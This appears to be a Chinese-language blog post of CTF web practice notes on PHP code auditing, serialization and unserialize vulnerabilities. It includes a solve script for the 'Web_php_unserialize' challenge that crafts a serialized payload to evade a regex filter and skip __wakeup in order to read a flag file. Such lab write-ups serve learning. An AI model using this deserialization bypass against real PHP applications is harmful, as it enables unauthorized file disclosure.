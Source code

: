 ```yaml
---
title: ctf-web练习(php)
date: 2023-09-18 00:30:52
tags:
---
```

# ctf-web练习(php)--待补充

## 代码审计基础知识

代码检查是审计工作中最常用的技术手段，实际应用中，采用“自动分析+人工验证”的方式进行。通常检查项目包括:系统所用开源框架、源代码设计、错误处理不当、直接对象引用、资源滥用、API滥用、后门代码发现等，通常能够识别如下代码中的风险点：

跨站脚本漏洞、跨站请求伪装漏洞、SQL注入漏洞、命令执行漏洞、日志伪造漏洞、参数篡改、密码明文存储、配置文件缺陷、路径操作错误、资源管理、不安全的Ajax调用、系统信息泄露、调试程序残留、第三方控件漏洞、文件上传漏洞、远程命令执行、远程代码执行、越权下载、授权绕过漏洞。

![image-20230914165928110](https://s2.loli.net/2023/09/14/gY5Goj1kVz3eQ9b.png)

## php知识

### php的魔术方法

- __construct() 当一个对象创建时被调用 --构造函数
- __destruct() 当一个对象销毁时被调用 --析构函数
- __wakeup() 使用unserialize时触发
- __sleep() 使用serialize时触发
- __toString()  当一个对象被当做一个字符串时来使用

### php的变量类型

public：属性被序列化的时候属性值会变成 `属性名`

protected：属性被序列化的时候属性值会变成 `\x00*\x00属性名`

private：属性被序列化的时候属性值会变成 `\x00类名\x00属性名`

```php
<?php
class People{
    public $id;
    protected $gender;
    private $age;
    public function __construct(){
        $this->id = 'Hardworking666';
        $this->gender = 'male';
        $this->age = '18';
    }
}
$a = new People();
echo serialize($a);
?>
//O:6:"People":3:{s:2:"id";s:14:"Hardworking666";s:9:" * gender";s:4:"male";s:11:" People age";s:2:"18";}

```

注意：比如，$file 是私有成员，序列化之后字符串首尾会多出两个空格 “%00*%00”，如果有时候利用html网页复制值可能会出现问题。

### php序列化和反序列化

PHP序列化：serialize()

序列化是将变量或对象转换成字符串的过程，用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构。

而PHP反序列化：unserialize()

反序列化是将字符串转换成变量或对象的过程。

从序列化到反序列化这几个函数的执行过程是：

```php
__construct()` ->`__sleep()` -> `__wakeup()` -> `__toString()` -> `__destruct()
```

```php
<?php  
class TEST{  
 public $test1="11";  
 private $test2="22";  
 protected $test3="33";  
 public function test4()  
 {  
 echo $this->test1;  
 }  
}  
$a=new TEST();  
echo serialize($a); 
?>
//O:4:"TEST":3:{s:5:"test1";s:2:"11";s:11:"TESTtest2";s:2:"22";s:8:"*test3";s:2:"33";}
//O代表类，然后后面4代表类名长度，接着双引号内是类名
//然后是类中变量的个数：{类型：长度:"值"；类型:长度:"值"...以此类推}
//有时候为了避免private和protected导致一些字符不可打印，通常会urlencode一下

```

学习链接：

https://zhuanlan.zhihu.com/p/601673949

## 题目

### 1. ctf-web-“PHP2” 

- phps文件就是php的**源代码文件**，通常用于提供给用户（访问者）查看php代码，因为用户无法直接通过Web浏览器看到php文件的内容，所以需要用**phps**文件代替。其实，只要不用php等已经在服务器中注册过的MIME类型为文件即可，但为了国际通用，所以才用了phps文件类型。

- 运用后台扫描工具

  

### 2. ctf-web-unserialize3

##### **原理**

PHP**反序列化漏洞**：执行unserialize()时，先会调用__wakeup()。

当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()。

（**影响版本**php5<5.6.25,php7<7.010）已经测试过，在本机php8.2中，并不会有该漏洞的出现。

##### **目的**

了解绕过常见的**函数过滤**机制

### 3.Web_php_unserialize

类似于上题，只是多了一个正则过滤问题

![image-20230925181847920](https://s2.loli.net/2023/09/25/vbW31rf7uKmqcSk.png)

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

    $A = new Demo('fl4g.php');
    $C = serialize($A);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
    $C = str_replace(':1:', ':2:',$C);//绕过wakeup

    var_dump(base64_encode($C));
   

    
?>
```

曾出现的问题：

$file 是私有成员序列化之后字符串首尾会多出两个空格 “%00*%00”，所以base64加密最好在代码中执行防止复制漏掉----本人刚开始的解题思路便是启动服务器输出序列化后的字符串然后进行复制，再在代码中进入下一步操作，然后出现了问题。

#### 参考链接

https://blog.csdn.net/Hardworking666/article/details/122373938

https://www.cnblogs.com/hugboy/p/web_php_unserialize.html

